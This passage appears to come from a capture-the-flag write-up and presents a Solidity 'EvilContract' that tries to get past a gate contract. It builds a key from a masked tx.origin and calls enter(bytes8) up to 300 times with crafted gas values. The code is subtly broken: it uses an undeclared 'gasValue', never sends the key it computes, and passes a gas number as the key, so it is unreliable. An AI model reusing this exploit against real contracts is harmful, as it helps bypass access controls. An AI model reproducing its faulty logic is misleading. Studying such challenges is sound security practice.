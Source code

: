 ![Debugging interface](images/18f23b5aad25da24fa6fbdc8842fb1ee0568daa3ac723a166802b0cc2dd2518d.png)  

So here is the final contract

```js
contract EvilContract { 
    function getKey() view public returns (bytes8){ 
        return bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF; // The first time will pass false the second true
    }
    function callAttack(address gateAddress, uint baseGasValue) public returns (bool) {
        bytes8 gateKey = getKey();
        uint i;

        for (i=0;i<300;i++)
        {
        (bool result,) =  gateAddress.call{gas:gasValue}(abi.encodeWithSignature("enter(bytes8)", baseGasValue+100+8191*4));
        if(result) return result;
        }
        return false;
    }
}
```
